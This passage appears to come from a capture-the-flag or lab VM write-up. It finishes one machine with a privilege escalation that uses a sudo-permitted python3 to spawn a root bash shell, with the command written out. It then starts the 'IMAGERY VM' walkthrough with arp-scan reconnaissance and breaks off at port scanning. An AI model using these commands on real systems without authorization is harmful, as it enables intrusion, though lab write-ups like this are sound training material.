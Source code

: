 
Checking `sudo -l`, I found that `python3` could be run as **root without a password**:

![pasted](./Pasted_image_20250503010628.png)

I used the following command to spawn a root shell:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

![pasted](./Pasted_image_20250503010739.png)

 **Root access achieved!**



---

## IMAGERY VM

### Step 1: Reconnaissance – Discovering the Target

We begin by scanning the local network to identify available hosts using:

```bash
sudo arp-scan --local
```

![pasted](./Pasted_image_20250503031552.png)

This reveals the target machine with IP: **192.168.112.178**

---

### Step 2: Port Scanning – Identifying Open Services
